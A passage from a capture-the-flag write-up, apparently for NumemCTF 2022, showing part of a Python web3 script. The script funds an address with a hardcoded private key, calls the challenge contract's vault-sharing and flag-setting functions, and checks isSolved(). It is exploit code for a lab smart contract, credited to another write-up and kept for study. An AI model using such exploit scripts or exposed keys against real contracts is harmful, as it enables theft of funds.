 ```python
        "from": myAddr,
        "nonce": w3.eth.get_transaction_count(myAddr),
        "gasPrice": w3.eth.gas_price,
        "value": 0,
        "chainId": w3.eth.chain_id,
    })
    signed_tx = w3.eth.account.sign_transaction(func_call, prikey)
    result = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    transaction_receipt = w3.eth.wait_for_transaction_receipt(result)
    print(transaction_receipt)

def isSolved():
    f = open('cont.abi', 'r')
    abi_txt = f.read()
    abi = json.loads(abi_txt)
    contract = w3.eth.contract(address=cont, abi=abi)
    result = contract.functions.isSolved().call()
    print(result)

#Send ether to your newly created address 
#Parameters inputed (_from, _to, _from_privatekey, amount)
send_ether("0x000aC03fa5C30668646f153F8048008C505BF971", myAddr, '0xa0c36f2b02f7a49af4abb4f5054c0f9626678500054da8e22cbca044e72ec864', w3.to_wei("1", "ether"))

#Share EG tokens with the newly created address
share_my_vault()

#Set flag
setflag()

#Check if flag is set to true
isSolved() #True
```

## Reference
Scripts were from [gss1](https://gss1.tistory.com/entry/NumemCTF-2022#toc6) write-up. I've only research, analyse and study the breakdown.